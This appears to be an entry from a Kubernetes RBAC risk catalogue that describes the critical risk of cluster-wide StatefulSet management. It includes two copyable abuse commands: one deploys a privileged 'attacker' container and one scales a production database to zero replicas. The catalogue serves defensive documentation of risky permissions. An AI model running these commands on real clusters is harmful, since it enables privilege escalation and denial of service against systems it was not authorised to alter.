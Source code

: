 ```yaml
---
id: 1037
title: "Manage StatefulSets cluster-wide"
description: "Grants permission to create, update, or delete StatefulSets across all namespaces. Similar to Deployments, this can be used to deploy pods (often stateful applications) with privileged configurations, leading to privilege escalation, persistence, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------- |
| ID            | 1037                                                                                                                |
| Name          | Manage StatefulSets cluster-wide                                                                                    |
| Risk Category | Elevation of Privilege                                                                                              |
| Risk Level    | {{< risk Critical >}}                                                                                               |
| Role Type     | ClusterRole                                                                                                         |
| API Groups    | apps                                                                                                                |
| Resources     | statefulsets                                                                                                        |
| Verbs         | create, update, patch, delete                                                                                       |
| Tags          | {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete StatefulSets across all namespaces. Similar to Deployments, this can be used to deploy pods (often stateful applications) with privileged configurations, leading to privilege escalation, persistence, and tampering.

## Abuse Scenarios

1. Create a new StatefulSet with a privileged pod template.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: privileged-statefulset
spec:
  serviceName: "privileged-service"
  replicas: 1
  selector:
    matchLabels:
      app: privileged-sts
  template:
    metadata:
      labels:
        app: privileged-sts
    spec:
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        securityContext:
          privileged: true
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Scale a critical StatefulSet to zero replicas, causing data inconsistency or DoS.

```bash {copy=true}
kubectl scale statefulset <statefulset-name> -n <namespace> --replicas=0
# Example: kubectl scale statefulset my-database -n production --replicas=0

```
